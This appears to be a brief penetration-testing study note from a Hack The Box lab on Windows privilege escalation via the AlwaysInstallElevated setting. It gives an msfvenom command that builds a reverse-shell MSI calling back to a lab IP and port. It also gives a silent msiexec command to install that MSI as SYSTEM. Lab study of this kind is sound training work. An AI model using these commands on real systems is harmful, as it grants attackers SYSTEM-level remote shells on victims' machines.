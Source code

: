 ***
This settings allow the installation of software with elevated users
-> can be used to obtain elevated privilege by crafting a malicious msi

**Crafting msi**
```
msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.13 lport=4242 -f msi > notashell.msi
```

**Installing msi as SYSTEM**
```
msiexec /i c:\\users\\htb-student\\desktop\\aie.msi /quiet /qn /norestart
```

![[priv-esc.png]]
